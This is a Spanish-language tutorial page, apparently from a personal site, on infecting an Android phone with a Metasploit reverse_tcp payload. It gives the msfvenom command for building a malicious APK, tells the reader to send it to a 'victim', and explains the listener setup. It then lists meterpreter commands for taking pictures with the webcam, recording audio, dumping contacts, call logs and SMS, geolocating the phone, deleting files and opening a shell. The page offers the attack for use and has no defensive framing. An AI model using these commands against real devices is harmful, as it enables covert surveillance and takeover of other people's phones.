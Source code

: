 ## Crear un payload de Android usando Metasploit.

Buenas, Esto es una guía básica y sencilla para infectar un android a través de una apk infectada con un payload.

La herramienta Metasploit viene instalada por defecto en Kali Linux.

Lo primero, que es un payload?

Un payload es un virus o malware que consiste en realizar una acción (normalmente maliciosa) en un dispositivo que esté conectado dentro de nuestra red o fuera de otra. El fin que tiene un payload es tener control total y remoto del dispositivo que se quiera interceptar en cuestión.

Básicamente, es un virus que nos va a permitir controlar desde una consola un dispositivo.
(Poder hacer fotos, capturas, rastrear llamadas, borrar archivos y todo lo que te puedas imaginar)

¿Qué es Metasploit?

es una herramienta de hacking y pentesting destinada a la explotación y tests de penetración de una manera sencilla. Esta herramienta es conocida por ser como una "navaja suiza" para los hackers y prácticamente todas las distribuciones de Linux lo traen.

## Paso 1
Abrimos la aplicación "Metasploit" y escribimos el comando "msfvenom -p android/meterpreter/reverse_tcp LHOST=xxxx LPORT=xxxx R > name.apk"

El comando se divide en varias partes que son:

msfvenom -> Es la aplicación donde desarrollamos el payload

-p -> Estamos indicando que vamos a realizar un payload

android/meterpreter/reverse_tcp -> Es el tipo de payload que necesitamos

LHOST -> Es la IP que usará la aplicación para comunicarse con nosotros. Si se va a hacer dentro de la red nuestra el valor es 192.168.1.1 pero si es fuera de nuestra red deberá ser nuestra IP Pública

LPORT -> Es el puerto donde se conectará nuestra aplicación. Si la red es interna yo uso el puerto 8080 pero si es en una red exterior deberemos abrir el puerto que deseemos

R > name.apk -> Es la ruta donde almacenaremos el payload y con que nombre. La ruta por defecto (cuando ponemos solo el nombre, es la carpeta personal o la de root).

## Paso 2
Ahora, nuestro payload se ha guardado en la carpeta que tengamos por defecto en Kali Linux. ese archivo .apk es el que tenemos que envíar a la víctima.

Una vez hayamos introducido el payload en el móvil de nuestra víctima ponemos los siguientes comandos:

msfconsole -> Iniciamos la aplicación de monitoreo
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp -> Indicamos cual payload queremos detectar
set LHOST xxxx -> Indicamos la IP asignada al payload. (la misma que hemos asignado a la hora de generarlo)
set LPORT xxxx -> Indicamos el puerto asignado al payload (el mismo que hemos asignado a la hora de generarlo)
exploit  -> para iniciar el ataque.

Una vez llegados a este punto, si la víctima abre el apk deberemos tener control total sobre el teléfono.

## COMANDOS

Estos son todos los comandos que podemos ejecutar para controlar el android de la víctima.

meterpreter > pwd — Ubicacion actual directorio

meterpreter > cd cache — Cache

meterpreter > cat — Para ver archivos

meterpreter > ls — Listar archivos

meterpreter > upload <archivo> — Subir archivo
  
meterpreter > download <archivo> — Descargar archivo
  
meterpreter > ifconfig — Detalle configuracion redes
  
meterpreter > ps — Lista procesos
  
meterpreter > sysinfo — Informacion de sistema
  
meterpreter > webcam_list — Listado de webcam
  
meterpreter > webcam_snap -i 2 — Capturar imagen de camara 2
  
meterpreter > webcam_stream -l 2 — Streaming video de camara 2
  
meterpreter > record_mic -d 20 — Grabar 20s de audio
  
meterpreter > dump_calllog — Obtener registro de llamadas
  
meterpreter > dump_contacts — Obtener registro de contactos
  
meterpreter > geolocate — Obtener ubicacion del telefono
  
meterpreter > send_sms -d <num> -t text — Enviar SMS (deja huellas)
  
meterpreter > dump_sms — Ver los sms recibidos
  
meterpreter > route_list — Ruteo de direcciones
  
meterpreter > cd /sdcard — Lista archivos de SD Card
  
meterpreter > rm <archivo> — Eliminar archivo
  
meterpreter > rmdir <carpeta> — Eliminar carpeta
  
meterpreter > mkdir <dir> — Crear carpeta
  
meterpreter > search -f *.mp3 — Buscar archivos extension mp3
  
meterpreter > set_audio_mode -m 0 — 0:Silencio 1:Medio 2:Maximo
  
meterpreter > shell — Ejecutar una shell
  
> exit — Finaliza la shell


[Volver](https://minicompi4.github.io)

